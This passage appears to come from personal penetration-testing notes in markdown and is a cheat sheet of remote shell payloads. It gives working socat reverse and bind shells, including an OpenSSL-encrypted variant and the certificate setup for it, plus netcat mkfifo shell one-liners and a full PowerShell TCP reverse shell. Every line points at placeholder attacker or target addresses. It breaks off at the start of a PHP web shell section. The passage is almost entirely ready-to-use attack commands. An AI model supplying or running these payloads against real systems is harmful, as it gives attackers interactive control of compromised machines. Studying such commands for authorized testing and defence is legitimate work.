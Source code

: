         - connect to listener: `socat TCP:<TARGET-IP>:<TARGET-PORT> -`
        - Stable linux reverse shell with tty
            ```bash
            # listener
            socat TCP-L:<port> FILE:`tty`,raw,echo=0
            # connect to listener
            socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
            ```
        - Socat encrypted shell
            ```bash
            # generate cert for encrypted shell
            openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
            # merge key and cert into .pem
            cat shell.key shell.crt > shell.pem

            # reverse shell setup listener
            socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 - 
            # NOTE: the cert MUST be used on the listening device
            # connect back to listener 
            socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

            # bind shell setup listener
            socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
            # connect back to listener
            socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
            ```
        - Common shell payloads
            ```bash
            # Linux listener for bind shell
            mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
            # Linux reverse shell
            mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
            ```
            ```powershell
            # Powershell reverse shell oneliner
            powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
            ```
- Web Shells
    - PHP
        ```php